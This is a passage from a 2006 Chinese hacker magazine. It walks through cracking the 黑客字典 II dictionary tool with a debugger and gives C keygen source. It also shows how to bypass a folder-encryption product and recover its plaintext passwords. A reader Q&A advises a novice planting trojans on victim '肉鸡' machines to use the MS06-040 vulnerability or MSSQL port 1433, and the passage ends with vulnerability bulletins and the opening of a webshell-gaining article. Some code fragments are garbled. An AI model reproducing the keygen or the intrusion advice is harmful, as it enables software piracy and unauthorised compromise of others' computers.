黑客这一名词，也许注定要和密码捆绑在一起。记得一位安全专家说过：“一个密码对应一个权限”。我想这就是为什么密码是黑客们梦寐以求的东西的原因吧。而在破解密码的过程中，一个好的字典无疑可以极大地缩短破解时间。黑客字典 II 就是业界的前辈小榕开发的一款制作字典的软件。

## 二、破解

废话说了这么多，下面我们进入本文的主题。先看一下它的什么马甲，如图 1。


图 1 PEiD 侦壳

看来并没有加任何的壳，程序是用 Visual C++ 编译的。下面开始破解。

在破解之前，建议大家先熟悉一下程序的注册流程，养成好的习惯是很重要的！程序用的是用户名 + 注册码的注册方式，并没有用到当下很流行的重启验证的注册方式，这样省去了不少麻烦。考虑程序是用 Visual C++ 编译的，所以在取得用户名和密码的时候用的无外乎是 GetWindowText 或者 GetDlgItem 函数，而由我们向程序提供的注册信息来看，程序很有可能是由我们提供的用户名得到注册码，然后再与我们提供的注册码比较，复杂一点的话就将注册码处理一下再比较（这样的好处是可以避免明码比较，从而使注册信息不在内存中以可以辨认的形式出现）。这样破解者就不能通过 WinHex 之类的软件搜索内存得到注册码了。

那么，程序用的是什么方式来注册呢？考虑此程序完成的时间，猜测程序使用的应该是明码比较的方式。填上注册信息，然后点注册，这时软件弹出注册错误的对话框，这时候不要点确定，用 WinHex 打开黑客字典的主内存来搜索填入的假的注册码（这里是 188990139），找到后注意观察内存的数据，在不远处就可以看到一个可疑的字符串 U8v866zG，没错，这就是注册码了，如图 2 所示。


其实这并不是什么新技术，在这里加以说明是想让大家明白，为什么有的程序可以在内存搜索到注册码，而有的却不可以。研究一个问题，做到透彻才对噢。

## 三、算法分析

前面我带领大家在内存中搜索到了真正的注册码，不过总感觉还是不爽。那么，就让我继续带领大家找到这个程序的注册算法吧！

前面我说过程序在取得用户名和注册码时使用 GetWindowText 或者 GetDlgItem 函数，这个就是破解黑客字典 II 的突破口了。首先用 OllyDBG 载入黑客字典 II，F9 让程序运行，然后按快捷键 Ctrl+N 呼出程序的函数导入表，随便激活一行然后输入 GETWINDOWTEXT（不分大小写），OD 就会自动为我们定位这个函数了。找到这个函数后单击鼠标右键选择“在每个参考设置断点”，用同样的方法在函数 GetDlgItem 设置断点（后来证明在此函数上设置断点是没有必要的，不过小心点总是没有错的），注册，输入以下信息：

- 用户名：Hacksign
- 注册码：188990139


点注册，程序马上被断下。这时，观察一下堆栈，如图 3。注意程序在进行函数调用时堆栈压入的 Buffer 参数，这就是函数保存得到的对话框内容的内存地址哦。在内存中找到这个地址后按 Ctrl+F9 让 GetWindowText 执行到返回，就会看到内存地址 0012EE04 已经填充上了我们输入的用户名。下面就要耐心一点了，F8 单步跟踪，在此期间程序会再一次调用 GetWindowText 函数，这一次是得到注册码，离胜利不远了，继续前进。F8 继续单步跟踪，直到看到如下代码：

```asm
00401BFA    8D7C24 20       LEA EDI, DWORD PTR SS:[ESP+20] ; 用户名地址
00401BFE    83C9 FF         OR ECX, FFFFFFFF
00401C01    33C0            XOR EAX, EAX
00401C03    F2:AE           REPNE SCAS BYTE PTR ES:[EDI]
00401C05    F7D1            NOT ECX
00401C07    49              DEC ECX
00401C08    0F84 16020000   JE UltraDic.00401E24
00401C0E    8DBC24 84000000 LEA EDI, DWORD PTR SS:[ESP+84] ; 注册码地址
00401C15    83C9 FF         OR ECX, FFFFFFFF
00401C18    F2:AE           REPNE SCAS BYTE PTR ES:[EDI]
00401C1A    F7D1            NOT ECX
00401C1C    49              DEC ECX
00401C1D    0F84 01020000   JE UltraDic.00401E24
```

上面的代码的作用是计算用户名和注册码的长度，如果两者有一个为空的话就跳到 00401E24 处理，下面重头戏开始了（很奇怪小榕没有把算法封装在一个函数中，而是直接写在代码中）：

```asm
00401C33    0FBE7C34 20     MOVSX EDI, BYTE PTR SS:[ESP+ESI+20]
; 依次取用户名中的每一位
00401C38    8BC7            MOV EAX, EDI
; eax 初始化为用户名相应的值
00401C3A    B9 0A000000     MOV ECX, 0A
; ecx 初始化为 0x0A
00401C3F    99              CDQ
00401C40    F7F9            IDIV ECX    ; eax/ecx
```

```asm
00401C42    8BCA            MOV ECX, EDX
; 余数存入 ecx
00401C44    81E2 01000080   AND EDX, 80000001
; 余数 and 0x80000001
```

# 算法小结

- 1. 设用户名为数组 RegName[]，RegName[i] 为用户名的第 i+1 位。
- 2. 用户名中的每一位和 0x0A 相除，设余数为 YuShu；YuShu = RegName[i] % 0x0A。
- 3. 令余数与 0x80000001 做“与”运算，temp = YuShu & 0x80000001。

```asm
00401C4A    79 05           JNS SHORT UltraDic.00401C51
; 结果不是负数就跳
00401C4C    4A              DEC EDX
00401C4D    83CA FE         OR EDX, FFFFFFFE
00401C50    42              INC EDX
```

# 算法小结

如果 temp 小于 0，就将余数减一后与 0xFFFFFFFE 做“或”运算，然后再加一，temp = ((temp - 1) | 0xFFFFFFFE) + 1。

```asm
00401C51    75 16           JNZ SHORT UltraDic.00401C69
; 结果不为 0 就跳
00401C53    8BC7            MOV EAX, EDI
; 为零就将此位赋值给 eax
00401C55    B9 1A000000     MOV ECX, 1A
; ecx=0x1A
00401C5A    99              CDQ
00401C5B    F7F9            IDIV ECX
; eax/ecx
00401C5D    80C2 41         ADD DL, 41
; 余数加上 0x41
00401C60    889434 48010000 MOV BYTE PTR SS:[ESP+ESI+148], DL
; 作为注册码存入地址
00401C67    EB 2E           JMP SHORT UltraDic.00401C97
```

# 算法小结

- 1. 如果 temp 等于 0，就用 RegName[i] 的值除以 0x1A，得到的余数再加上 0x41，temp = RegName[i] % 0x1A + 0x41。
- 2. temp 的值就作为注册码的第 i 位保存在 ESP+ESI+148 地址。

```asm
00401C69    8BC1            MOV EAX, ECX
; 余数传递给 eax
00401C6B    BB 03000000     MOV EBX, 3
; EBX=0x03
00401C70    99              CDQ
00401C71    F7FB            IDIV EBX  ; eax/ebx
00401C73    85D2            TEST EDX, EDX
; 余数是 0 吗?
00401C75    75 16           JNZ SHORT UltraDic.00401C8D
; 不是 0 就跳
00401C77    8BC7            MOV EAX, EDI
; 如果是 0
00401C79    B9 1A000000     MOV ECX, 1A
; ecx=0x1A
00401C7E    99              CDQ
00401C7F    F7F9            IDIV ECX  ; 就将这一位除以 0x1A
00401C81    80C2 61         ADD DL, 61
; 然后余数+0x61
00401C84    889434 48010000 MOV BYTE PTR SS:[ESP+ESI+148], DL
; 存入内存作为注册码
00401C8B    EB 0A           JMP SHORT UltraDic.00401C97
```

# 算法小结

- 1. 如果 YuShu & 0x80000001 的值大于 0，就让 YuShu 除以 0x03，然后判断所得余数是否为 0。
- 2. 如果不是 0，就跳到 00401C8D。
- 3. 如果是 0，就用用户名中该位除以 0x1A 后所得的余数加上 0x61，temp = RegName[i] % 0x1A + 0x61。
- 4. temp 作为注册码的第 i 位存入内存。```asm
00401C8D  > 80C1 31        ADD CL, 31
; 余数加上 0x31
00401C90    888C34 48010000 MOV BYTE PTR SS:[ESP+ESI+148], CL
; 作为注册码保存


```

# 算法小结

- 1. 如果 YuShu 除以 0x03 后余数为 0。
- 2. 就将该余数加上 0x31，temp=YuShu%0x03+0x31。
- 3. temp 作为注册码的第 i 位存入内存。
```asm
00401C97  > 8D7C24 20      LEA EDI, DWORD PTR SS:[ESP+20]
; 用户名地址传递给 edi
00401CA0    46             INC ESI      ; 指向用户名的下一位
00401CA1    F2:AE          REPNE SCAS BYTE PTR ES:[EDI]
00401CA3    F7D1           NOT ECX
00401CA5    49             DEC ECX
; 计算用户名长度
00401CA6    3BF1           CMP ESI, ECX
; 用户名取完了吗?
00401CA8    72 89          JB SHORT UltraDic.00401C33
; 小于，也就是没取完，跳回继续循环


```
## 四、编写注册机

这部分没有什么好说的，如果大家明白了程序的注册算法，那么写出注册机就是很简单的事情了。如果大家还没有明白的话，希望在看过注册机的代码之后，可以对程序的注册算法有进一步的理解。下面就是注册机的源代码：

```c
RegCode[...] != '\0'
printf("Your RegCode is \n%s\nHave a good time ;)\n", RegCode);
```

```c
#include "stdio.h"
#include "string.h"

void main()
{
    char RegCode[20], RegName[20];
    int i=0, count, temp, YuShu;
    scanf("%s", RegName);

    count=strlen(RegName);         // 得到用户名的长度
    while (i<=count)
    {
        temp=(RegName[i]%0x0a)&0x80000001;
        YuShu=RegName[i]%0x0a;
        if (temp<0)
        {
            YuShu--;
            temp=YuShu|0xFFFFFFFE;
            YuShu++;
        }
        if (temp==0)
        {
            temp=RegName[i]%0x1a+0x41;
            RegCode[i]=temp;
        }
        else
        {
            temp=YuShu%0x03;
            if (temp==0)
            {
                RegCode[i]=RegName[i]%0x1a+0x61;
            }
            else
            {
                temp=YuShu+0x31;
                RegCode[i]=temp;
            }
        }
        i++;
    }
}


```

该注册机在 WinXP SP2、VC6 下编译成功，如图 4、图 5。

注册成功后程序会在 C 盘下面生成 regbanyet.dat 文件，该文件具有隐藏和只读属性，把这个文件删除掉就又可以再玩一遍啦。

> **编辑点评：**
> 算法分析在破解中是一个难点，最重要的就是要学会分析得到注册码的程序流程，通常采用单步跟踪。黑客字典的反破解并不是很强，所以适合菜鸟用来练习算法分析，总结经验。

试用报告时间到！上期我们检验了微点这款安全产品的安全性，本期报告的同样属于一款安全产品，具体说是一款加密产品。它是安全产品真的安全吗？还是和上次的结果一样呢，让我们听 smallrascal 给我们慢慢道来。

# 私人保险箱不保险

- 从本文你可以学到：
- 1. 手工破解私人保险箱
- 2. 了解 Filemon 和 Regmon

私人保险箱是一款直接对文件夹进行加密的软件，使用简单、方便，但是其安全性又如何呢？还是请各位看官继续往下看本人对这款软件的安全测试。

## 一、还原文件夹

我们先来看一下未进保险箱前的文件夹及文件列表，如图 1 所示。

下面的测试就以 F 盘下的 test 文件夹及文件为例。
图 1 保护前文件夹
图 2 嗅探器扫描结果
图 3 DIR 命令相关参数解释
图 4 列出当前所有目录

首先将 test 文件夹添加进私人保险箱，等加密完成后，我们可以在 F 盘下看到“文件名”为 test.{25336920-03F9-11CF-8FD0-00AA00686F13} 的“文件”，双击无法进入。现在借助一款名为“文件夹嗅探器”的扫描隐藏文件的软件来查看一下，如图 2 所示就是扫描结果。

看到了吧，test 文件夹里的文件全部出来了，还多了一个“mm.dat”的文件。先把这个结果放一下，来看一个常用的 DOS 命令——dir。在命令行下输入“dir /?”查看使用说明，如图 3 所示。

其中有一项“/A”参数是显示指定属性的文件夹及文件，这里我们选择“D”属性，也就是目录属性。将盘符切换到 F 盘下，输入“dir /ad”后立刻可以看到结果，如图 4 所示。

其中 test.{25336920-03F9-11CF-8FD0-00AA00686F13} 的文件也是目录属性，这也是上文中为什么要在“文件”三个字上加引号的原因，因为它并不是真正意义上的文件，而是一个被改了属性的文件夹。既然在“dir”的显示结果中是文件夹，那就好办了。打开 WinRAR，也将盘符切换到 F 盘，双击 test.{25336920-03F9-11CF-8FD0-00AA00686F13}，是不是发现奇迹出现了，竟然进去了，而且我们的文件都在，还多了两个文件，一个是上文提到的“mm.dat”，另一个是“desktop.ini”，如图 5 所示。

我们利用 WinRAR 的查看功能分别查看这两个多出来的文件，因为它是在进入保险箱后产生的，在某种意义上就是突破保险箱的关键所在。图 6 中显示的就是“mm.dat”的内容。

上图中显示的内容是“testen”，这是我设置的私人保险箱的登录/管理密码，还是先放下，继续往下看。图 7 中显示的是“desktop.ini”的内容。
图 5 用 WinRAR 浏览隐藏目录
图 6 查看 mm.dat 文件内容
图 7 查看 desktop.ini

看到“CLSID=”后面的字符 {871C5380-42A0-1069-A2EA-08002B30309D} 了吗？其实它在注册表中代表一个系统类，功能是指向 IE 的一些默认属性，如显示在桌面上的 IE 默认图标。这个文件实际上就是私人保险箱的“加密”手段，只是修改了文件夹默认的属性而已，这也就是“desktop.ini”的作用。既然方法找到了，那就“解决”它。选中此文件，点击工具栏上的“删除”按钮。回到 F 盘下，将 test.{25336920-03F9-11CF-8FD0-00AA00686F13} 改名为 test。如果看不到这个“文件”，请将文件夹选项设置为显示所有文件。结果如图 8 所示。

下面我们只要用 DOS 命令 ATTRIB 修改目录属性即可。到这里文件夹已经被还原了。接着我们来看看此软件的密码安全问题。

## 二、获取密码

先用软件管理员登录，再打开 FILEMON。Filemon 是一个监视文件操作的工具，修改密码后要写入文件，写入注册表下面会讲到。接着修改软件管理员密码，等成功后关闭私人保险箱，最后到 Filemon 中分析截获的文件操作，如图 9 所示。

在上图中我们只要找进程名为私人保险箱 Srbxx.exe、请求为 WRITE 的那一项。一般文件操作过程是：建立/打开文件，将内容写入文件，关闭文件，图中选中的三项恰恰就是如此。往后看，在路径一栏中可以找到我们要用的文件，这里是“c:\windows\system32\msacok.dll”，其它一栏中的描述是写入了 13 个字节，是从偏移 0 开始写的，也就是说，是从文件开头写的。用 WinHex 打开它，软件管理员密码就在里面，而且还是明文存储。13 个字节是由密码 11 字节 + 回车换行 2 字节构成的，如图 10 所示。
如法炮制，可以获取到私人用户名和密码的存储位置，如图 11、12 所示。

上图中“test”是用户名，“testen”是密码，如果有多个用户，则会在末尾继续添加。用户名和密码得到了，那又如何得到每个用户对应的保险箱呢？用与 Filemon 对应的 Regmon 就可以了，这个是监视注册表操作的。

先用获取到的用户名和密码登录，接着打开 Regmon，再用向导添加一个文件夹到保险箱中，等添加完毕后关闭私人保险箱，最后分析 Regmon 获取的注册表操作结果，如图 13 所示。

同样，我们只需在上图中找进程名为私人保险箱 Srbxx.exe、请求为 SetValue 的那一项。一般注册表操作过程是：建立/打开键 -> 将内容写入键 -> 关闭键。上图中截获的就是这三项。往后看，在路径一栏中可以找到在注册表中操作的位置，这里是“HKEY_CURRENT_USER\Software\SafeBox”。用注册表编辑器打开，可以看到图 14 所示的结果。
其中左边的“test”就是应用用户名，右边则是该用户在保险箱的文件夹。这个可以通过建立多用户来观察。

## 三、写在最后

好了，到此所有测试全部完成。这款所谓的私人保险箱的保险方法实在让我不敢恭维。不仅“保险”方法简单，而且密码是以明文存储，希望软件作者能够多多改进。

【文中涉及到的私人保险箱、Filemon、Regmon 已经收录在光盘中】
# 编辑点评

> 虽然私人保险箱隐藏了文件夹，但在命令提示符下却无法隐身。用 dir /ad 这个命令就原形毕露。而 Filemon 和 Regmon 这两个监视器也可以轻松监视隐藏的文件夹，所以要想保密，大家还是另想办法吧。
# 读编互动

**Q:** 为什么好多 IP 地址我 ping 不通？有时候找到 IP 地址，但是想查看它所开的端口时，却 PING 不通，请问各位大大有什么好的建议！

**A:** 很多时候我们所 PING 的 IP 地址所在的主机做了安全防护，导致我们无法 PING 通其 IP。如果想看开了什么端口，就要借助扫描器的帮忙了！或者傻一点的方法：Telnet IP Port，当我们 Telnet 上目标的 80 端口时，就会显示有关 Web Server 的指纹信息（就是服务器的 Banner 信息之类的）。

例如：

```text
telnet www.163.com 80
然后摸黑输入 OPTIONS HTTP/1.1，就会看到 163 所使用的 Web Server 版本如下：
Server: squid/2.5.STABLE10
Mime-Version: 1.0


```

**Q:** 我装了 REALPLAYER 的最新版本，但不能观看线上电影和在线听歌曲，进入界面后会显示空白，请各位高手指点迷津！

**A:** 因为不知道具体的原因，所以首先跟你说明可能是因为网速的关系，导致无法在线娱乐（听歌、看电影）；或者是你所谓的无法在线娱乐，是因为你使用了 OP（Opera）浏览器，因为 OP 是需要 RealPlayer 的插件才可以网上在线娱乐的！方法很简单，去官方下载一个插件就 OK 了！又或者你的 RealPlayer 没有安装齐全的解码插件导致无法播放，只要在程序的选项中在线添加就 OK 了。

**Q:** 请问进程 WUAUCLT 是干什么用的？我可以关闭它吗？

**A:** Wuauclt.exe 是 Windows 自动升级管理程序。该进程会在线检测更新。删除该进程将使你无法得到最新更新信息。

**Q:** 为什么我雅虎助手还有网密什么的删除不了啊？

**A:** 你可以试试用 Windows 流氓软件清理大师。它能够检测、清理已知的大多数广告软件、工具条和流氓软件。而且这是完全免费的，你可以试试用这个来删除。  
http://www.crsky.com/soft/6700.html

**Q:** 小弟刚出道不久，弄了几本手册，看了 20 多天终于知道咋刷 QB 了。可是按书上说的用啊 D 工具包找肉鸡，能找到。但是再用木马种植机种木马，它总是说权限不够。试了好多，都是这样。怎么办呀。

**A:** 木马种植机的基本原理就是利用 $IPC 管理通道进行入侵的，但是现有大部分用户所使用的系统都是 XP，而你如果还能够进行 $IPC 入侵的话，大多应该是 2000 的主机。因为 XP 下的命令行管理通道基本都被自带的防火墙默认关闭、不可连接，同时即使你用管理员账号连接上也是 GUEST 权限，所以你的问题就是因为你拿到的 IPC 权限过低，没有办法复制文件到目标主机，从而失败。你可以看看目标主机的其余服务是否存在漏洞。比如现在内网很盛行 06040 漏洞，可以参考本期的肉鸡接龙的文章！也有些个人用户可能会安装 MSSQL，则可以试试 1433 这个著名端口。

**Q:** 我用超级兔子清理系统后主页就跳到超级兔子的主页去了，结果不能修改，请帮帮我？

**A:** 根据你的情况，我特地下载了兔子回来，但是没有发现你的情况。你可能是因为没有设置好关于 IE 保护部分的选项，你打开“超级兔子魔法设置”->“网络”->“IE 默认打开的网页”，然后输入你要打开的主页地址就可以了！你这个问题是可以修改的。

**Q:** 杀毒软件和防火墙到底有什么区别？像卡巴司机这样的好杀毒软件是不是能代替防火墙啊？

**A:** 小编感觉可以这样简单理解，杀毒软件主内，防火墙主外；杀毒软件是针对病毒而设计的软件，功能主要是用来防治以及查杀已知和未知的有害程序。而防火墙是用来针对来自网络的攻击、黑客入侵等等攻击行为的防御设备。防火墙现在有两种：1、硬件防火墙；2、软件防火墙。因为现在的网络安全公司会把杀毒软件以及防火墙分开或者捆绑发售，所以有些功能会相互存在或者互补。但是你说杀毒软件能不能完全替代防火墙，这个完全就看未来的发展了，比如杀毒软件把防火墙功能整合成其中的一个功能，也不是没有可能。但是这两者的作用是完全不同的。
# 读编互动

## 超强黑语

城市：四川遂宁  
姓名：谢愿寒

黑语：把美国黑成非洲

// 嘘！编辑部里静悄悄，就连针掉在地上都能听见（晕，好老套的比喻，小学就用过了）。小编看到谢愿寒这条签名，忍俊不禁，哈哈大笑起来，几个小编围拢过来问笑啥，小编想了想：“我也不知道，好玩而已。”“切，无聊”哄散开去。

## 对杂志改版的调查

论坛 ID：xsy8330  
城市：湖北宜昌  
姓名：王凯

→我觉得还需要改进，建议如下：  
封面可炫的但别太叛逆（本期我就很喜欢，但上期那张抽烟的封面，我在看了第一眼之后，便失去了买下的欲望，因为我对香烟过敏、反感，相信大多数人对它也不会太接受，哪怕我们自诩为异类！）

// 第一次在回执卡中发现有对香烟如此敏感+反感的读者，小编决定将每一天都设为禁烟日，谢谢王凯。

QQ：371040140  
城市：湖南娄底  
姓名：吕杰

尽量做到通俗易懂，尽量用通俗的语言讲述理论知识，尽量不要用几个字母代表某个概念，要么就全篇英文，要么就全篇中文，避免不伦不类，放洋屁。

// 豪华的排比阵势，三个“尽量”加上两个“要么”，立马将一种新颖的办刊宗旨提炼完毕，强。当然，“放洋屁”也同样具有震撼力！

## 对某篇文章的读后感

论坛：虽然我不帅  
城市：江苏常州  
姓名：王佳年

7 月刊登的“手机信息骚扰反击战”

前几天，我爷爷的手机就被“黑”了，气死我也，可偶然买一本《黑客手册》，发现了这篇文章，我欣喜若狂，腰不酸了，腿不疼了，上楼也有劲了，但我不敢去尝试，万一别人揪出了我咋办，那我就提前进入了“老年痴呆”阶段。

// 小编再也不敢了！
论坛 ID：水蓝祝福  
QQ：271792483  
城市：北京丰台  
姓名：杨旭

建议：我在“BT 网吧可以这么破”风言飘语的第五行发现了个错别字，我想应该是“网管自告奋勇”吧，要是网关也能自告奋勇，那可见了鬼啦！哈哈……是吧。

// “泡泡吧”小编在关键时刻把网关这个东西也拟人化，非比寻常，耐人寻味。

## 对 9 月“中关村东路的朝鲜女孩”的评论

论坛 ID：源动力  
QQ：77607099  
城市：吉林长春  
姓名：常春阳

9 月创作出来的中篇小说确实不错，为什么每个黑客交到的女朋友都会在最后离开（至少大部分黑客故事都这么写）。我将来的愿望是在 IT 行业工作，那我会不会也如此命运……不过要是能让我碰到这么全才的女孩我也值了；从这篇文章我想到了土豆，你发展得咋样了，“读后有感”想到土豆，我很关注哦。

// 土豆听说在芸芸众生还有读者记得他，只见他语气哽咽，鼻子泛红，眼睛开始积攒眼泪所需的原材料——盐水，但是最终水量太小，不足以成型为颗粒状，而无法造成泪水下坠。于是，本次土豆煽情只好作罢。

论坛 ID：beauyu  
城市：安徽淮南  
姓名：于国良

这是我看“XA pache”写的第二篇文章，个人认为，他应该也和 LCX 一样，文学和安全方面都不错，文中的男主角“破风”有一种痞子的味儿，很搞笑，运气也太 high 了，女主角的条件几乎可以去找白马王子来配了，而这样一个大 MM 竟让一个看《色即是空》而学会几句韩语的 programmer 给撞上了，而且好像是投怀送抱，真是让看了这期的哥们们都想一砖拍了他。

// 国良同学看来入戏很深，由爱生恨啊。XA pache 有机会去安徽淮南出差的时候可要小心板砖了。
# 黑客手册

非安全 2006.11 ￥10

# 苏菲的秘密

## 百分之一的幸福机器

- 浅谈 MSMAX BLOG 安全
- DZi 许愿插件漏洞
- 商贸通 2006 后台验证 COOKIE 漏洞
- phpwind 最新漏洞详情

# 注入、跨站：庐山在线 v2.0 漏洞利用

# 渗透 Bit 计划

# 完全掌握母校网络拓扑结构
# 蓝色魔法论坛漏洞解析

- 新漏洞
- 虚拟机使用总结
- 科技网站的安全检测

- 巧妙利用社会工程学入侵校园
- 对网站安全性的几点不成熟思考
- 服务器 IPSEC 防御 CC 攻击
- 图书馆之旅
- 都是限制流量惹的事
- 自己动手编写的 Linux 下的 who 程序
- 一次完整利用 0day 帖子

- 超强下载者免杀
- 木马免杀之多层加壳
- 破解 0 起步之总结篇（算法篇）

### 轻松玩转 .net 程序破解
# 烽火台

微软老大最近祸不单行，先是黑客开发“蓝色药丸”，专门对付 Vista 系统，后又在本月发布了 11 个补丁；曾经因为“中美黑客大战”而名声大噪的“中国红客联盟”重新开张；Google 最近可是“绯闻”不断，先是 Google 被黑客利用进行攻击，随后官方 Blog 被黑，发布虚假消息……

# 新闻概要

## Google 代码搜索窥探程序漏洞

安全专家周四警告开发者，他们的开源程序库现在已经可以很容易被 Google 搜索到，然后攻击者通过其源代码寻找可能存在的漏洞。现在 Google 可以有效地搜索代码。而且 Google 的代码搜索所暗含的安全问题与其网站搜索引擎带来的问题类似。这也就意味着一场新的 Google 黑客战争开始了！

*小述点评：Google 作为全球最大的搜索引擎，其强大的服务征服了很多网民，但其抽丝剥茧般的强悍搜索却越来越成为黑客们收集目标信息的绝佳武器。*

# 新闻短评快报

## 蓝色药丸可能导致新技术滞后

黑客程序研究人员一直在开发一款名为“蓝色药丸”的程序，并以该程序为基础编写微软操作系统 Windows Vista 所不能发现的恶意程序，预计该隐形恶意程序将于数月内完工。在马来西亚吉隆坡举行的黑客安全大会（HITB）上，鲁科维斯基表示：“所谓的蓝色药丸，就是劫持一个操作系统，并进入虚拟机，从而对其进行控制。”蓝色药丸程序之所以得逞，其实主要利用了 AMD 和英特尔处理器中使用的硬件虚拟技术。由于使用了虚拟技术，电脑硬盘的不同分区可以同时运行完全不同的操作系统。防御蓝色药丸程序侵入的最佳方法是关闭处理器的虚拟化功能，但这势必遭到芯片厂商的强烈反对。“研究人员花费数年时间才开发出了具备虚拟功能的新型处理器，现在却要关闭这些功能，这合适吗？显然不符合常理。”鲁科维斯基表示。相比之下，目前比较可行的办法是要求微软 Vista 操作系统内核内存的分页功能关闭，也就是说将大约 80MB 的内核代码和驱动程序上传到主存中，这样可阻止蓝色药丸进入内核并执行代码。

当黑客在演示了类似攻击后，微软至今仍没有对 RC1 做出任何修改。而微软安全中心的负责人表示，Vista 将会继续提高其安全性。

*小述点评：Windows Vista 是微软下一代操作系统，其雏形刚刚展示就被黑客攻破，有点意外，毕竟微软太招风。希望微软能在 Vista 推出之前找到有效的解决办法。*

## Windows 漏洞：微软发布 11 个补丁

微软公司打算在本周二发布 10 多个安全补丁，其中有 Windows 和 Office 的高危漏洞补丁。其中有些补丁已被评定为“危急”。

*小述点评：这么多漏洞被频繁发现，到底是谁在为微软产品做测试呢？可以猜想，有他们的安全代码测试部门，有第三方网络安全公司，还有更多分布在世界各地的 Hacker。Hacker 促进了软件业的发展，但也增加了软件发展的成本。*
## 中国红客技术联盟重组

曾经在国内黑客组织中一度拥有最多会员、且世界排名第 5 的黑客组织“中国红客联盟”在解散后，近日重新开张。联盟成立于 2000 年年底，是由黑客界传奇人物 Lion 牵头组建的。其成员曾达到 8 万多人，成为世界排名第 5 的黑客组织。该组织主要反击国外一些黑客的攻击，其中 2001 年中美黑客大战最为著名。

据内部人员介绍，“中国红客联盟”解散后，很多人怀着不同的目的都在打着红盟的旗号。红盟的全称为中国红客技术联盟，网址仍使用 www.cnhonker.com。

*小述点评：重新开张的红盟会以什么样的姿态展示它的风貌，我们拭目以待。*

# 漏洞公告牌
# Microsoft IE WebViewFolderIcon 远程整数溢出漏洞（MS06-057）

- 受影响系统：
  - Microsoft Internet Explorer 6.0 SP1
  - Microsoft Internet Explorer 6.0

描述：BUGTRAQ ID: 19030  
CVE(CAN) ID: CVE-2006-3730, CVE-2006-4690

Internet Explorer 是微软发布的非常流行的 Web 浏览器。Internet Explorer 在处理畸形的 ActiveX 对象调用方式时存在整数溢出漏洞，远程攻击者可能利用此漏洞导致浏览器崩溃或执行任意指令。

如果攻击者能够向 WebViewFolderIcon 控件的 setSlice 方法传递 0x7fffffff 参数的话，可能导致浏览器崩溃或执行任意指令。

- 厂商补丁：
  - Microsoft
  - Microsoft 已经为此发布了一个安全公告

# Microsoft PowerPoint 远程代码执行漏洞（MS06-058）

- 受影响系统：
  - Microsoft PowerPoint v.X for Mac
  - Microsoft PowerPoint 2004 for Mac
  - Microsoft PowerPoint 2003
  - Microsoft PowerPoint 2002
  - Microsoft PowerPoint 2000

描述：BUGTRAQ ID: 20226  
CVE(CAN) ID: CVE-2006-4694

Microsoft PowerPoint 是非常流行的电子文档演示工具。PowerPoint 在处理包含有畸形字符串的 PPT 文件时存在漏洞，可能允许攻击者执行任意指令。

目前这个漏洞正在被 Trojan.PPDropper.F 木马积极地利用。如果系统被该木马入侵的话，会在系统上留下以下文件：

- FinalPresentationF05.ppt
- 2006-Jane.ppt

木马在运行时会执行以下操作：

1. 创建以下文件之一：
   - %CurrentFolder%\FinalPresentationF05.ppt
   - %CurrentFolder%\2006-Jane.ppt
2. 打开一个 Microsoft PowerPoint 文件，使其看起来像是合法的文档。
3. 利用 Microsoft 安全警告 925984 中所述的漏洞并留下以下文件：%CurrentFolder%\update.exe

- 厂商补丁：
  - Microsoft
  - Microsoft 已经为此发布了一个安全公告

（MS06-057）以及相应补丁：  
MS06-057: Vulnerability in Windows Explorer Could Allow Remote Code Execution (923191)  
链接 http://www.microsoft.com/technet/security/bulletin/ms06-057.mspx?pf=true

（MS06-058）以及相应补丁：  
MS06-058: Vulnerabilities in Microsoft PowerPoint Could Allow Remote Code Execution (924163)  
链接 http://www.microsoft.com/technet/security/bulletin/ms06-058.mspx

# Microsoft Excel COLINFO 远程指令执行漏洞（MS06-059）

- 受影响系统：
  - Microsoft Excel Viewer 2003
  - Microsoft Excel v.X for Mac
  - Microsoft Excel 2004 for Mac
  - Microsoft Excel 2003
  - Microsoft Excel 2002
  - Microsoft Excel 2000

描述：BUGTRAQ ID: 20391  
CVE(CAN) ID: CVE-2006-3875

Microsoft Excel 是非常流行的电子表格工具。

Microsoft Excel 在处理文件中畸形 COLINFO 记录时存在缓冲区溢出漏洞，远程攻击者可能在用户机器上以当前用户权限执行任意指令。

Microsoft Excel 在处理 COLINFO 记录的某些字段时未进行充分的检查，因而在进行数据填充操作时可能触发缓冲区溢出。攻击者通过精心构造数据可能导致执行任意指令。攻击者可以创建包含畸形 COLINFO 记录的 Excel 文件，并通过即时通讯工具或电子邮件等形式诱使用户打开，从而以该用户身份执行任意命令。如果该用户是管理员，则攻击者可以完全控制用户所在系统。

- 厂商补丁：
  - Microsoft
  - Microsoft 已经为此发布了一个安全公告

（MS06-059）以及相应补丁：  
MS06-059: Vulnerabilities in Microsoft Excel Could Allow Remote Code Execution (924164)  
链接 http://www.microsoft.com/technet/security/bulletin/MS06-059.mspx

## Google 官方 Blog 被黑，黑客发布虚假消息

Google 官方 Blog 上周末被黑，黑客在上面发布了一则假消息。Google 很快就修正了网站上的 bug 并删除了该帖子。

> 小述点评：无独有偶，小编正在编辑本条新闻的时候，QQ 里传来 Q 友消息，称 baidu 被挂马，还截取了一张杀毒软件报警的图片过来。小编尝试浏览了一下百度，没有发现任何异常，也许根本就是一则假消息，也许是百度的应急响应速度很快。
# 肉鸡接龙
随着前段时间几个 IE 大漏洞的公布，Web 挂马又被炒得火热。而人们的安全意识也是前所未有地高，要捉到鸡也是蛮有难度的，除非……攻破几个大站，然后再挂马。为了肉鸡数量我们只好撒大网了。那就让我们跟着黑萝卜同志一起去看看，怎样利用 session 漏洞去得到 WebShell。在这之后就不用别人教了吧。

# 旁注

### 我用 ewebeditor

# 从本文你可以学到：

- ewebeditor session 欺骗漏洞的利用
- 利用旁注更改 session

相信现在最流行的旁注拿站技术大家是不会陌生的，但是越来越多的虚拟主机服务提供商开始注意这个问题，很多服务器都经过了相当严格的配置，想要通过跨目录或者提权来得到目标站点的 shell，那已经是很不容易的事情了。难道优秀的旁注思想就这样没有用武之地了？不，思路是可以变通的，我们要稍微加一点新的想法，一样可以把旁注技术发挥得淋漓尽致！

事情还得从我一次拿站的经过说起：经过对目标站点的测试发现了 ewebeditor，大喜，马上尝试默认账户 admin，默认密码 admin，失败。不怕，我们还有下载默认数据库这一招，还是失败，地址被管理员修改了！怎么办呢，还是老办法，旁注吧。这个过程我就不多说了，折腾了半个小时总算拿到了 webshell，想跨目录失败，想提权也是失败，面对这样的管理员我还真没有什么办法了，难道就这样放弃了？

